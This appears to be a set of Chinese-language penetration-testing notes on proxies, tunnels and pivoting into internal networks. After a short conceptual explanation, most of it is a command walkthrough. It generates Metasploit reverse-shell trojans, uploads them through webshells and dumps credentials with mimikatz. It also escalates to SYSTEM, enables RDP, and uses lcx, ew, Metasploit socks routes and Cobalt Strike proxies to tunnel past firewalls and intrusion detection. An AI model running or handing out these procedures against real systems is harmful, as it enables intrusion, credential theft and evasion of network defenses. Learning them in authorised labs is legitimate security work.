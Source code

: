 代理：
是一种代表客户端向服务器发起请求的服务器，客户端不直接访问目标服务器，而是通过代理服务器向目标服务器发起请求。代理服务器可以对请求进行一些处理，比如缓存、过滤、重写头等等。代理服务器通常位于客户端和服务器之间，客户端将请求发送到代理服务器，代理服务器再将请求发送到目标服务器，并将服务器返回的响应再传回到客户端。

隧道：
则是一种将数据流经过加密和封装后，通过一个已经建立好的通道进行传输的技术。隧道协议通常用于在不安全的网络上建立安全通道，比如在互联网上进行远程登录、文件传输等操作。隧道协议可以将任何协议封装，并在两端建立一个虚拟的通信通道，数据在通道内传输时，可以对数据进行加密和解密等处理。

代理和隧道都是网络通信中常用的技术，它们的主要区别在于工作原理和使用方式。代理主要是用来代替客户端向服务器发起请求，并可以对请求进行一些处理；而隧道则是将数据流进行加密和封装，建立一个虚拟的通信通道来进行传输。



代理根据连接的方式不同又分为正向连接和反向连接，连接的过程中又会用到端口转发。
正向连接：目标服务器A对外服务，具有自己的公网IP地址时，B可以直接使用脚本或者木马控制服务器A。
反向连接：目标服务器A无公网IP，B无法通过外网连接到目标，需要让目标服务器A反向连接B从而实现控制。
端口转发：将一个端口上收到的数据流量转发给另一个端口。


在实际的工作中，正向连接往往会受到防火墙或者防护设备的限制，反向连接则完全没有这些影响。其次内网部署的各种防火墙和入侵检测设备会检查一些敏感端口的连接情况，如果发现连接存在异常就会立即阻断通信。通过端口转发将一些敏感端口的数据转发到不被防火墙监控的端口上，就可以绕过防火墙的检测！


==代理就是A和C之间网络不通，但是A和B能够通信，B和C能够通信，于是A利用B做跳板机去实现和C之间通信；==
==隧道主要是解决不出网协议上线的问题，也就是当A和C双方的网络通信被防火墙或者防护平台限制的时候，利用隧道技术来实现通信。==


==**一、LCX代理转发**==

1，利用MSF生成木马
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.0.9 lport=4444 -f exe >su.exe

2，msf进入监听模式
输入命令设置本地监听，具体命令如下：
启动msf：msfconsole
选择工具：use exploit/multi/handler
设置攻击语句：set payload windows/meterpreter/reverse_tcp
设置监听IP（注意IP地址是本地kali机器的IP地址）：set lhost 10.0.0.9
设置监听端口：set lport 4444
开始监听：run或者exploit


蚁剑上传木马，然后终端运行，MSF上线之后，就可以调用MSF强大的功能模块去做渗透了。



5，信息收集

MSF上线之后，就可以调用MSF强大的功能模块去做渗透了

调用mimikatz模块：load mimikatz

收集账号密码：creds_all

查看当前目标机器IP地址：ipconfig

需要提升为system权限：getsystem #windows2003以本地管理员登录可以成功


chcp 65001


6，上传转发工具lcx.exe，以便于端口转发

7，开启3389远程桌面
run getgui -e #这条命令在老版本的kali中可以正常运行，新版kali的MSF模块进行了更名
run post/windows/manage/enable_rdp #新版kali中运行这条命令即可 

8，MSF进入shell命令行，执行命令，将目标机器的3389端口转发到攻击机的IP地址和自定义端口上

shell ##可输入lcx.exe直接查看该工具的参数用法
lcx.exe -slave 192.168.2.4 5555 127.0.0.1 3389


9，本地攻击机执行命令实行端口二次转发（lcx工具的规定用法）
lcx.exe -listen 5555 1234
10，攻击机打开远程桌面连接，直接连接本机的1234端口

此时我们远程连接目标服务器过程中，因为是将目标的3389端口的流量做了转发，所以可以避免被防护设备监听到流量异常，能让渗透测试更加隐秘和安全。



==**二，ew代理转发**==

1，webshell上传ew.exe（蚁剑为例）
ew.exe是另一个端口转发的工具。给大家配备了相应的linux和MAC版本


2，MSF生成监听木马，上传到目标服务器，蚁剑进入虚拟终端命令行调用木马，MSF监听上线
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.0.201 lport=4444 -f exe >su.exe
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.0.201
set lport 4444
exploit或者run


3，MSF提权进入shell命令行
getsystem
shell


4，将ew的Linux版本上传到kali攻击机

5，开启另一个kali窗口，执行命令
./ew_for_linux -s rcsocks -l 1008 -e 3389 #开启linux服务器版本的ew，将kali机器的1008端口流量转发到3389端口（端口可自定义）

6，shell命令行界面执行命令调用ew.exe，连接kali攻击机的ew服务器端口
ew.exe -s rssocks -d 192.168.163.133 -e 3389
代理建立成功！

7，打开Proxifier代理工具
Proxifier代理工具安装：https://blog.csdn.net/m0_52985087/article/details/134401391


8，设置代理服务器
添加输入kali攻击机的IP地址和端口，选择socks版本，点击确定
检查代理连接情况：绿色表示可运行

9，代理成功，内网已经穿透，可以直接使用本机访问内网服务:http://192.168.3.31/
同样的网址，配置内网代理之后，可以直接通过浏览器访问内网服务了。



==**三、使用MSF直接调用模块开启端口转发代理**==

代理设置步骤：

1、使用MSF生成木马（实战情况下需要做免杀处理）

2、通过webshell管理工具（菜刀、蚁剑、哥斯拉等等）上传到目标服务器。
启动木马

3、MSF会话上线之后，使用命令添加路由：
run autoroute -p  #查看路由
run post/multi/manage/autoroute   #添加路由
此时添加的路由是针对当前会话的路由，其他的程序和工具是没办法通过当前路由访问内网的，所以此时我们还需要添加相应的通信节点！

4、将当前会话放置到后台，调用相应的模块添加节点
background #将会话放置后台
search socks #搜索相应的会话模块
#添加节点的模块名为：auxiliary/server/socks_proxy

5、选择相应的模块，设置节点（可设置账号密码或者自定义端口）
use auxiliary/server/socks_proxy #选择相应的模块

6、设置Proxifier代理工具
![[1729086796414 1.png]]
7、代理成功之后，可直接在本地浏览器访问目标主机内网



==**四、CS的代理转发通信**==

代理设置步骤：

1，使用CS生成木马，通过webshell管理工具（菜刀、蚁剑、冰蝎、哥斯拉等）上传到Windows2003运行上线


2，CS选择“代理转发”点击“socks 代理”；
设置代理端口“自定义”，点击确定
![[Pasted image 20241016221413.png]]





3，打开Proxifier代理工具，新增代理服务器，填写IP地址(cs服务端IP)和自定义的端口检查测试代理的连接情况
![[1729088632084.jpg]]


4，代理之后，可直接访问内网网站
注意：Proxifier中选择的代理协议要和CS的代理协议一致！

==============================================================================================================================
